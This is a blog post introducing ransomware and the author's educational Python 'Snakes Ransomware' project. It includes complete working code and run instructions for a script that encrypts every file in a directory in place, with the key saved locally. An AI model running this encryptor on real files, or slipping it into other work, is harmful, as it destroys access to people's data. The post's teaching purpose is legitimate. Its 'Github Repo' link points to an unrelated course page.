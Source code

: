 ```yaml
---
title: "Understanding Ransomware and a Dive into Snakes Ransomware"
meta_title: ""
description: "Ransomware"
date: 2022-05-16T05:00:00Z
image: "/images/snakes-ransomware.png"
categories: ["Ransomware", "Python"]
author: "Krishna Chaitanya"
tags: ["snakes ransomware", "ransomware"]
draft: false
---
```

## What is Ransomware?

Ransomware is a type of malicious software designed to block access to a computer system or encrypt its data until a sum of money, or ransom, is paid. It’s a form of cyber extortion that has become increasingly prevalent, targeting individuals, businesses, and even government organizations. Once infected, victims are often left with a grim choice: pay the ransom to regain access to their files or risk losing them forever.

### How Ransomware Works

Ransomware typically spreads through phishing emails, malicious websites, or software vulnerabilities. When the malware is executed, it begins encrypting files on the victim's system, rendering them inaccessible. A ransom note is then displayed, demanding payment in exchange for the decryption key.

The use of ransomware has evolved over the years, with cybercriminals employing more sophisticated techniques to avoid detection and increase their chances of receiving payment. Unfortunately, even after paying the ransom, there’s no guarantee that the files will be restored.

## Introduction to Snakes Ransomware

Snakes Ransomware is a Python-based tool I’ve developed to demonstrate the encryption and decryption processes involved in ransomware. While this project is intended purely for educational purposes, it highlights the mechanics of ransomware in a controlled environment.

### Features of Snakes Ransomware

- **File Encryption:** Encrypts all files in a specified folder.
- **Key Generation:** Creates a unique key for each encryption process, which is crucial for decryption.
- **File Decryption:** Provides a way to decrypt the previously encrypted files using the generated key.

## How to Use Snakes Ransomware

### Step 1: Installation

First, ensure you have all the required dependencies installed. You can do this by running the following command in your terminal:

```bash
pip install -r requirements.txt
```

### Step 2: Encryption Process

To encrypt files within a target folder:

1. **Copy the Encryption Script:**
   - Place the `snakes-encrypt.py` file into the folder you want to encrypt.

2. **Execute the Script:**
   - Open a terminal and navigate to the folder containing the script.
   - Run the following command:
   
     ```bash
     python snakes-encrypt.py
     ```

3. **Encryption Completion:**
   - After execution, all files in the folder will be encrypted, and a key file named `snakes-key.key` will be generated. This key is essential for decrypting the files.

### Step 3: Decryption Process

To decrypt the files:

1. **Copy the Decryption Script:**
   - Place the `snakes-decrypt.py` file in the folder containing the encrypted files.

2. **Add the Encryption Key:**
   - Ensure the `snakes-key.key` file is in the same directory as the decryption script.

3. **Execute the Decryption Script:**
   - Run the following command in your terminal:
   
     ```bash
     python snakes-decrypt.py
     ```

4. **Decryption Completion:**
   - The encrypted files will be restored to their original state.

## How Snakes Ransomware Was Created

Creating Snakes Ransomware involved a deep dive into cryptography and file handling in Python. The key aspects of the program include:


### **Encryption Script Explanation**

This script is designed to encrypt all files in the current directory, except for the encryption script itself and the key file.

#### **1. Importing Necessary Libraries:**
```python
import os
from cryptography.fernet import Fernet
```
- `os`: Used to interact with the operating system for file operations.
- `cryptography.fernet`: A symmetric encryption method from the `cryptography` library, which is used to encrypt and decrypt files.

#### **2. Listing Files to Encrypt:**
```python
files = []

for file in os.listdir():
    if file == "snakes-encrypt.py" or file == "snakes-key.key":
        continue
    if os.path.isfile(file):
        files.append(file)
print(files)
```
- The script lists all files in the current directory.
- It excludes the encryption script (`snakes-encrypt.py`) and the key file (`snakes-key.key`) to prevent them from being encrypted.

#### **3. Generating the Encryption Key:**
```python
key = Fernet.generate_key()

with open("snakes-key.key", "wb") as thekey:
    thekey.write(key)
```
- A new encryption key is generated using `Fernet.generate_key()`.
- This key is saved in a file called `snakes-key.key`. This key is essential for decrypting the files later.

#### **4. Encrypting the Files:**
```python
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)

    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)
```
- The script loops through each file in the `files` list.
- It reads the contents of each file in binary mode (`"rb"`).
- The contents are encrypted using the generated key.
- The encrypted contents are then written back to the original file in binary mode (`"wb"`), replacing the original contents with the encrypted data.

### **Complete Encryption Script**

Here's the complete encryption script with comments for clarity:

```python
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# List of files to be encrypted
files = []

# Identify files to encrypt, excluding the script and key files
for file in os.listdir():
    if file == "snakes-encrypt.py" or file == "snakes-key.key":
        continue
    if os.path.isfile(file):
        files.append(file)
print("Files to be encrypted:", files)

# Generate encryption key and save it to a file
key = Fernet.generate_key()

with open("snakes-key.key", "wb") as thekey:
    thekey.write(key)

# Encrypt each file
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)

    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print("Encryption completed.")
```


## Conclusion

Ransomware remains one of the most significant threats in cybersecurity today. By understanding how it works through projects like Snakes Ransomware, we can better prepare ourselves to defend against such attacks. Remember, the Snakes Ransomware project is strictly for educational purposes, and I strongly discourage any malicious use of this knowledge.

For more insights into cybersecurity and programming, stay tuned to Krishna-Blogs!

---
[Github Repo](https://cs50.harvard.edu/python/2024/) -- For referance

Contact: ekrishnachaitanya2004@gmail.com 'or'
        snakesnnetworks@gmail.com
